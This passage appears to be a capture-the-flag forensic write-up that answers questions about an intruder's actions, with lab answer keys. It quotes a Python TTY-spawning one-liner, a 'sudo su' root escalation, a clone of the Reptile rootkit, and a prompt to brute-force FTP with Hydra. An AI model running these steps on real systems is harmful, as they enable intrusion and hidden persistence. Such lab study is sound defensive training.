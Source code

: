This information is revealed in this banner:

~~~
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
~~~

Answer: `wir3`

## Which command did the attacker execute to spawn a new TTY shell?

Answer: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Which command was executed to gain a root shell?

The following lines will answer the question:

~~~
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# whoami
whoami
root
~~~

Answer: `sudo su`

## The attacker downloaded something from GitHub. What is the name of the GitHub project?

The attacker is downloading a content from github:

~~~
root@wir3:~# git clone https://github.com/f0rb1dd3n/Reptile.git
~~~

Answer: `Reptile`

## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

Answer: `rootkit`

#  Hack your way back into the machine

The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.
